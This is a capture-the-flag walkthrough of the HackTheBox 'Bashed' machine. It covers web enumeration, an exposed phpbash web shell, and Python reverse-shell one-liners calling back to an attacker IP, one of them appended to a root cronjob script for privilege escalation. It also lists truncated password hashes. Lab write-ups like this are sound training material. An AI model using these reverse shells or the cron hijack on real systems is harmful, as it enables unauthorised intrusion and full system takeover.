


# [[HackTheBox] Bashed](https://www.hackthebox.eu/home/machines/profile/118)

**Date**: 25/Jun/2020  
**Categories**: [htb](https://github.com/7h3rAm/writeups/search?q=htb&unscoped_q=htb), [linux](https://github.com/7h3rAm/writeups/search?q=linux&unscoped_q=linux), [oscp](https://github.com/7h3rAm/writeups/search?q=oscp&unscoped_q=oscp)  
**Tags**: [enumerate_proto_http](https://github.com/7h3rAm/writeups/search?q=enumerate_proto_http&unscoped_q=enumerate_proto_http), [exploit_python_reverseshell](https://github.com/7h3rAm/writeups/search?q=exploit_python_reverseshell&unscoped_q=exploit_python_reverseshell), [privesc_sudo](https://github.com/7h3rAm/writeups/search?q=privesc_sudo&unscoped_q=privesc_sudo), [privesc_cron_rootjobs](https://github.com/7h3rAm/writeups/search?q=privesc_cron_rootjobs&unscoped_q=privesc_cron_rootjobs)  

## Overview
This is a writeup for HackTheBox VM [Bashed](https://www.hackthebox.eu/home/machines/profile/118). Here are stats for this machine from [machinescli](https://github.com/7h3rAm/machinescli):


### Killchain
Here's the killchain (`enumeration` → `exploitation` → `privilege escalation`) for this machine:




### TTPs
1\. `80/tcp/http/2.4.18 ((Ubuntu))`: [enumerate_proto_http](https://github.com/7h3rAm/writeups#enumerate_proto_http), [exploit_python_reverseshell](https://github.com/7h3rAm/writeups#exploit_python_reverseshell), [privesc_sudo](https://github.com/7h3rAm/writeups#privesc_sudo), [privesc_cron_rootjobs](https://github.com/7h3rAm/writeups#privesc_cron_rootjobs)  


\newpage
## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
``` {.python .numberLines}
# Nmap 7.80 scan initiated Fri May 29 19:04:11 2020 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /home/kali/toolbox/writeups/htb.bashed/results/10.10.10.68/scans/_quick_tcp_nmap.txt -oX /home/kali/toolbox/writeups/htb.bashed/results/10.10.10.68/scans/xml/_quick_tcp_nmap.xml 10.10.10.68
Nmap scan report for 10.10.10.68
Host is up, received user-set (0.32s latency).
Scanned at 2020-05-29 19:04:24 IST for 46s
Not shown: 999 closed ports
Reason: 999 conn-refused
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May 29 19:05:10 2020 -- 1 IP address (1 host up) scanned in 59.85 seconds

```

2\. Here's the summary of open ports and associated [AutoRecon](https://github.com/Tib3rius/AutoRecon) scan files:  

  

3\. We see that the port `80/tcp` is the only open port on this machine. Let's run `gobuster` and find interesting directories on this web server:  
``` {.python .numberLines}
gobuster dir -u http://10.10.10.68:80/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -k -l -s "200,204,301,302,307,403,500" -x "txt,html,php,asp,aspx,jsp" -z -o "/home/kali/toolbox/writeups/htb.bashed/results/10.10.10.68/scans/tcp_80_http_gobuster_dirbuster.txt"

```

4\. We find a few directories from `gobuster` scan and the `/dev` directory lists two interesting files: `phpbash.min.php` and `phpbash.php`  
``` {.python .numberLines}
$ cat results/10.10.10.68/scans/tcp_80_http_gobuster_dirbuster.txt 
  http://10.10.10.68:80/images (Status: 301) [Size: 311]
  http://10.10.10.68:80/index.html (Status: 200) [Size: 7742]
  http://10.10.10.68:80/about.html (Status: 200) [Size: 8190]
  http://10.10.10.68:80/contact.html (Status: 200) [Size: 7802]
  http://10.10.10.68:80/uploads (Status: 301) [Size: 312]
  http://10.10.10.68:80/php (Status: 301) [Size: 308]
  http://10.10.10.68:80/css (Status: 301) [Size: 308]
  http://10.10.10.68:80/dev (Status: 301) [Size: 308]
  http://10.10.10.68:80/js (Status: 301) [Size: 307]
  http://10.10.10.68:80/config.php (Status: 200) [Size: 0]
  http://10.10.10.68:80/fonts (Status: 301) [Size: 310]
  http://10.10.10.68:80/single.html (Status: 200) [Size: 7476]

```

  

  

5\. We find that [`phpbash`](https://github.com/Arrexel/phpbash) is a minimal web shell that can give us interactive access to the target machine.  

  


### Findings
#### Open Ports
``` {.python .numberLines}
80/tcp  | http      | 2.4.18 ((Ubuntu))
```
#### Files
``` {.python .numberLines}
/dev/phpbash.min.php
/dev/phpbash.php
```

\newpage
## Phase #2: Exploitation
1\. We visit the `/dev/phpbash.min.php` page and find the `phpbash` interactive web shell UI which enables command execution and further enumeration:  

  

2\. We use a Python reverse shell to obtain interactive access on this system:  
``` {.python .numberLines}
nc -nlvp 443
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```

  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
www-data@bashed> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@bashed>  
www-data@bashed> uname
Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
www-data@bashed>  
www-data@bashed> ifconfig
ens33   Link encap:Ethernet  HWaddr 00:50:56:b9:44:62  
        inet addr:10.10.10.68  Bcast:10.10.10.255  Mask:255.255.255.255
        inet6 addr: dead:beef::250:56ff:feb9:4462/64 Scope:Global
        inet6 addr: fe80::250:56ff:feb9:4462/64 Scope:Link
        UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
        RX packets:83524 errors:0 dropped:332 overruns:0 frame:0
        TX packets:78785 errors:0 dropped:0 overruns:0 carrier:0
        collisions:0 txqueuelen:1000 
        RX bytes:5305396 (5.3 MB)  TX bytes:8408691 (8.4 MB)

lo      Link encap:Local Loopback  
        inet addr:127.0.0.1  Mask:255.0.0.0
        inet6 addr: ::1/128 Scope:Host
        UP LOOPBACK RUNNING  MTU:65536  Metric:1
        RX packets:444689 errors:0 dropped:0 overruns:0 frame:0
        TX packets:444689 errors:0 dropped:0 overruns:0 carrier:0
        collisions:0 txqueuelen:1 
        RX bytes:32908196 (32.9 MB)  TX bytes:32908196 (32.9 MB)
www-data@bashed>  
www-data@bashed> users
root
arrexel
scriptmanager
```

\newpage
## Phase #3: Privilege Escalation
1\. We find that the user `www-data` can run any command as user `scriptmanager` using `sudo`:  
``` {.python .numberLines}
sudo -l
sudo -u scriptmanager /bin/bash

```

  

  

2\. We find an interesting directory `/scripts` which has two files in it. One is a Python script `test.py` owned by user `scriptmanager` and other is `test.txt` owned by `root`. We use a script `CronJobCheckser.sh` and find that there's a `root` owned cronjob that runs the `test.py` script and which creates the `test.txt` file.  
``` {.python .numberLines}
ls -la /scripts
cat /scripts/test.py

```

  

  

  

3\. We can now edit this file to execute a reverse shell that gives us elevated privileges on the system:  
``` {.python .numberLines}
nc -nlvp 9999
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' >>/scripts/test.py

```

  

4\. As soon as the cronjob runs, we get the elevated shell and can now view the `root.txt` flag file:  
``` {.python .numberLines}
cat /root/root.txt

```

  

  


\newpage
## Learning/Recommendation
* Production web server instances should not host developement tools like a PHP web shell. It allowed the attacker to gain interactive access of the target system.
* Service users should not be allowed to use `sudo`. This misconfiguration enabled attacker to switch to a more privileged user account.
* Cronjob files should be owned by the same user that will be allowed to run it. The attacker was able to use this misconfiguration to modify a file they own and get it executed by `root` user.

## Loot
### Hashes
``` {.python .numberLines}
arrexel:$1$mDpVXKQV$o6HkBjhl/e.S.bV96tMm6.:17504:............
scriptmanager:$6$WahhM57B$rOHkWDRQpds96uWXkRCzA6b5L3wOorpe4uwn5U32yKRsMWDwKAm.RF6T81Ki/MOyo.dJ0B8Xm5/wOrLk.........................
```
### Flags
``` {.python .numberLines}
/home/arrexel/user.txt: 2c281f318555dbc1b8569...........
/root/root.txt: cc4f0afe3a1026d402ba10..........
```

## References
[+] <https://www.hackthebox.eu/home/machines/profile/118>  
[+] <https://medium.com/@ranakhalil101/hack-the-box-bashed-writup-a8e51a2914c2>  
[+] <https://0xdf.gitlab.io/2018/04/29/htb-bashed.html>  
